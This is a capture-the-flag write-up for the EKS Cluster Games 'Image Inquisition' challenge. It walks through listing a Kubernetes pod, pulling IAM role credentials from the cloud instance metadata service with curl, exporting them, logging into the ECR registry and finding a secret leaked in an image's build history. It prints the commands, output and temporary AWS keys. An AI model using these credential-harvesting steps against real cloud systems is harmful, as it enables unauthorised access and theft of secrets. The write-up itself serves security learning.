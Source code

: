 ```yaml
---
title: Image Inquisition - eksclustergames | 10 points
date: 2023-12-29 12:00:00 +100
categories: [eksclustergames, ctf, image-inquisition]
tags: [ctf, eksclustergames, image-inquisition]
---
```


# Challenge Description
>A pod's image holds more than just code. Dive deep into its ECR repository. Inspect the image layers, and uncover the hidden secret. You can also check the required K8s Cheat Sheet for this challenge within this page.
{: .prompt-info } 

If you check permissions, it's listed that we have `list and get pods` permissions. So, let's start with listing the pods.

>You can also check the permission using `kubectl` command as mentioned below.
```bash
root@wiz-eks-challenge:~# kubectl auth can-i list pod
yes
root@wiz-eks-challenge:~# kubectl auth can-i get pod
yes
```
{: .prompt-tip }

### List pods

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS      AGE
accounting-pod-876647f8   1/1     Running   1 (22d ago)   58d
```

As it's only one pod to focus, we can simply start with checking it's image (hint in the challenge description).

### Contianer Image

```bash
root@wiz-eks-challenge:~# kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

It's clear that the image is in ECR so obviously we need to run some AWS commands to go ahead.


```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

As the above command asked to login, we need to use the AWS Instance metadata service (IMDS) to get through it. Let's perform some required steps to login and get the Docker image from ECR.

### Instance Metadata Service (IMDS) to get IAM instance credentials

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam/security-credentials
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

### Get credentials

```bash
root@wiz-eks-challenge:~# curl -s 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq
{
  "AccessKeyId": "ASIA2AVYNEVM5QQU66N7",
  "Expiration": "2023-12-29 20:58:18+00:00",
  "SecretAccessKey": "8GFVVYgetRLMjTjjr0mQLLqCF9uNr0S7kSps+Mgn",
  "SessionToken": "FwoGZXIvYXdzEGUaDNIXeVNvbqF/NCkkdSK3AQiqCvidXKUztR2XOKM5t0iLlMLFlbjNiqd6pPjL6NrvTzZJ09e5TNmZ+Td1/mwvfVW9By5Tcrro0UHGTuLANkHR5klulXmAkCayYkiWtVXnKhAf6HMldwygnVX4Pygmd/k+y1lug+M7eeu6yLTUUBUSCkV+Fq0ofue4Bgz4ggxUTdIcu/NthDsVmucZX4AHsXIlCo8gc560vLK1b9P8i2cMIoVLKdeJLBUvxX80mAxsCdj2mZiRAijaybysBjItqjCqxmtmypWSBi/v354O9ziG5LqgzUldsGNBmJD1uOt1DxUs0qVy6VrUvfN/"
}
```

### Set AWS credential ENVs using inline bash command

```bash
root@wiz-eks-challenge:~# JSON="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole)"; export AWS_ACCESS_KEY_ID="$(echo "$JSON" | jq -r .
AccessKeyId)"; export AWS_SECRET_ACCESS_KEY="$(echo "$JSON" | jq -r .SecretAccessKey)";export AWS_SESSION_TOKEN="$(echo "$JSON" | jq -r .SessionToken)";
```

### Confirm permission using `sts:GetCallerIdentity`

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity | jq
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

### Login using AWS cli and Crane

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2023/12/29 20:11:42 logged in via /home/user/.docker/config.json
```

>Pull image from ECR using `Crane` (pre-installed) else you can use `dive` also. 
```bash
crane pull "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" /tmp/image.tar
```
{: .prompt-tip }

Initially it was mentioned in this Challenge that, we need to check the image layers for getting the flag. For that, I chose `Crane` as it was mentioned that this tool is already installed else `dive` is also a nice choise for this.

### Check the config of the image

```bash
root@wiz-eks-challenge:~# crane config "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" | grep -i "wiz_eks_challenge"
{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

and the flag is

>wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future}
{: .prompt-info }
